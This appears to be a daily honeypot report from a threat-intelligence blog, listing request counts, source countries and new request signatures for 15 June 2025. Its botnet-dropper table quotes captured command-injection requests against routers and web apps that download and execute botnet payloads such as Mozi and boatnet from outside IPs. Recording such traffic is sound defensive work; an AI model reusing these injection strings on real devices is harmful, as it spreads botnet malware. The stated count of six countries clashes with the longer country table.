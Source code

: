 ```yaml
---
title: "Report: 2025-06-15 "
date: 2025-06-15
desciption: "Report: 2025-06-15" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-15 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 29 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 789 requests were recorded during the day, originating from 6 different countries, with a peak of 254 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| KR               | Germany            |
| US               | Germany            |
| US               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83   | GET /shell?cd+/tmp;wget+http://94.26.90.251/payload1.sh+-O-+|+sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
| 141.98.11.147  | GET /shell?cd+/tmp;iptables+-I+INPUT+-p+tcp+-s+141.98.11.147+--dport+5500+-j+ACCEPT;+iptables+-I+INPUT+-p+tcp+--dport+5500+-j+DROP;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1 |
| 103.57.186.120 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.57.186.120:56531/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                        |
| 5.180.82.34    | GET /mail/?_from=%7B%7B%23exec('cd%20%2Ftmp%20%7C%7C%20cd%20%2Fvar%2Frun%20%7C%7C%20cd%20%2Fmnt%20%7C%7C%20cd%20%2Froot%20%7C%7C%20cd%20%2F%3B%20wget%20http%3A%2F%2F135.181.31.27%2Fnumpa.sh%3B%20curl%20-O%20http%3A%2F%2F135.181.31.27%2Fnumpa.sh%3B%20chmod%20%2Bx%20%2A%3B%20chmod%20777%20%2A%3B%20sh%20numpa.sh%3B%20.%2Fnumpa.sh%3B%20rm%20-rf%20%2A')%7D%7D HTTP/1.1                                                                                        |
| 103.48.64.114  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.48.64.114:44882/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                         |
| 144.172.116.95 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.150%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                     |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                          |
|----:|----------------------:|:-----------------------------------------------------------------|
|  85 |                     1 | \x00\x0E8\xDDl\x98\xAC\x90\x83\xD6\xBD\x00\x00\x00\x00\x00       |
|  95 |                     1 | HEAD /mysql-admin/scripts/setup.php HTTP/1.1                     |
| 103 |                     1 | GET /Odin/http/call1749972461 HTTP/1.1                           |
| 104 |                     1 | GET /OdinHttpCall1749972461 HTTP/1.1                             |
| 105 |                     1 | GET /odinhttpcall1749972461 HTTP/1.1                             |
| 106 |                     1 | \x00\x0E8k\x05\x1E\x0B\x03;\xD1\x96\x00\x00\x00\x00\x00          |
| 117 |                     1 | GET /qEdC HTTP/1.1                                               |
| 118 |                     1 | GET /kZAV HTTP/1.1                                               |
| 127 |                     1 | HEAD /php-myadmin/scripts/setup.php HTTP/1.1                     |
| 128 |                     1 | HEAD /admin/scripts/setup.php HTTP/1.1                           |
| 129 |                     1 | HEAD /dbadmin/scripts/setup.php HTTP/1.1                         |
| 145 |                     1 | GET /Odin/http/call1749973231 HTTP/1.1                           |
| 151 |                     1 | \x00\x0E8y\xCF\x13\xEE@r\xD5@\x00\x00\x00\x00\x00                |
| 154 |                     1 | GET /OdinHttpCall1749973231 HTTP/1.1                             |
| 155 |                     1 | GET /odinhttpcall1749973231 HTTP/1.1                             |
| 156 |                     1 | \x00\x0E8\x01\xBB-\x08Q\x9Ah\x1F\x00\x00\x00\x00\x00             |
| 157 |                     1 | \x00\x0E\x08\x01\xBB-\x08Q\x9Ah\x1F\x00\x00\x00\x00\x00          |
| 159 |                     1 | \x00\x0E\x08\x96\x07\xC8\xDCc\x82\x5C.\x00\x00\x00\x00\x00       |
| 161 |                     1 | \x00\x0E8\x96\x07\xC8\xDCc\x82\x5C.\x00\x00\x00\x00\x00          |
| 168 |                     1 | GET /axis-cgi/mjpg/video.cgi?camera=&resolution=640x480 HTTP/1.1 |
| 169 |                     1 | GET /mjpg/video.mjpg HTTP/1.1                                    |
| 170 |                     1 | GET /coqmjpyqr.jpg HTTP/1.1                                      |
| 178 |                     1 | \x00\x0E8C\x9D\x1A\xE3\x8FUB\xE5\x00\x00\x00\x00\x00             |
| 179 |                     1 | \x00\x0E\x08C\x9D\x1A\xE3\x8FUB\xE5\x00\x00\x00\x00\x00          |
| 191 |                     1 | GET /o5rF HTTP/1.1                                               |
| 192 |                     1 | GET /NSkQ HTTP/1.1                                               |
| 199 |                     1 | \x00\x0E8m\x96<pF\xE4\xB3\x9F\x00\x00\x00\x00\x00                |
| 202 |                     1 | \x00\x0E\x08\xEE\x9Du\xA3R,\x884\x00\x00\x00\x00\x00             |
| 203 |                     1 | \x00\x0E8\xEE\x9Du\xA3R,\x884\x00\x00\x00\x00\x00                |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   254 | US                 |
|  1 |                   123 | DE                 |
|  2 |                    66 | NL                 |
|  3 |                    41 | LT                 |
|  4 |                    32 | JP                 |
|  5 |                    29 | RU                 |
|  6 |                    27 | BG                 |
|  7 |                    27 | PL                 |
|  8 |                    23 | SC                 |
|  9 |                    23 | CN                 |
| 10 |                    22 | HK                 |
| 11 |                    18 | IN                 |
| 12 |                    12 | SG                 |
| 13 |                    10 | GB                 |
| 14 |                    10 | ZA                 |
| 15 |                     9 | NG                 |
| 16 |                     8 | GR                 |
| 17 |                     8 | CA                 |
| 18 |                     5 | FR                 |
| 19 |                     5 | TR                 |
| 20 |                     4 | AO                 |
| 21 |                     4 | ES                 |
| 22 |                     4 | MN                 |
| 23 |                     3 | KZ                 |
| 24 |                     3 | GH                 |
| 25 |                     2 | IE                 |
| 26 |                     2 | TW                 |
| 27 |                     2 | KR                 |
| 28 |                     2 | CH                 |
| 29 |                     2 | IL                 |
| 30 |                     2 | VN                 |
| 31 |                     1 | MC                 |
| 32 |                     1 | UA                 |
| 33 |                     1 | FI                 |
| 34 |                     1 | BE                 |
| 35 |                     1 | IT                 |
| 36 |                     1 | RO                 |
| 37 |                     1 | BR                 |
